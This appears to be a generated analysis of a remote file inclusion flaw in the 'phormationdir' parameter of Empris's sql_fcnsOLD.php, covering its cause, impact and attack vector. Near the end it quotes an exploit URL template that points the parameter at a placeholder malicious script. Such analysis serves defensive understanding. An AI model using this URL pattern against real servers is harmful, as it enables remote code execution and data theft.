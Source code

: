 Based on the provided content, here's an analysis of the vulnerability:

**Root Cause of Vulnerability:**
The vulnerability is a Remote File Inclusion (RFI) vulnerability present in the 'phormationdir' parameter of the `sql_fcnsOLD.php` script within the Empris application. This occurs because the application improperly handles user-supplied input for the `phormationdir` parameter, allowing an attacker to include a remote file by specifying a URL.

**Weaknesses/Vulnerabilities Present:**
- **Remote File Inclusion (RFI):** The primary weakness is the application's failure to sanitize user input in the `phormationdir` parameter, leading to the ability to include remote files.
- **Lack of Input Validation:** The application doesn't validate or sanitize the `phormationdir` parameter allowing arbitrary URLs to be used as the value.

**Impact of Exploitation:**
- **Arbitrary Code Execution:** By including a malicious remote file, the attacker can execute arbitrary code on the server. This can lead to:
    - Full server compromise
    - Data theft
    - Malware installation
    - Website defacement
- **Data Modification:** An attacker can potentially modify data within the application's database.
- **Denial of Service:** Depending on the included file, a denial of service condition may be triggered on the server.

**Attack Vectors:**
- **HTTP GET Request:** The vulnerability is triggered through a crafted HTTP GET request. The attacker needs to append a vulnerable parameter `phormationdir` with the URI of the malicious script.

**Required Attacker Capabilities/Position:**
- **Network Access:** The attacker needs network access to reach the vulnerable application.
- **No Authentication Required:** The exploit doesn't seem to require prior authentication, meaning any attacker with network access can try to exploit this vulnerability.
- **Knowledge of Vulnerable Parameter:** The attacker needs to know the vulnerable parameter name (`phormationdir`) and the vulnerable script path (`sql_fcnsOLD.php`).

**Technical Details:**
The provided exploit example is:
`http://www.site.com/[Empris_path]/phormation/sql_fcnsOLD.php?phormationdir=[evil_scripts]`
This shows how the `phormationdir` parameter can be manipulated to point to an external malicious script (`[evil_scripts]`).

This content provides more detail than a standard CVE description by giving a specific vulnerable parameter and URL.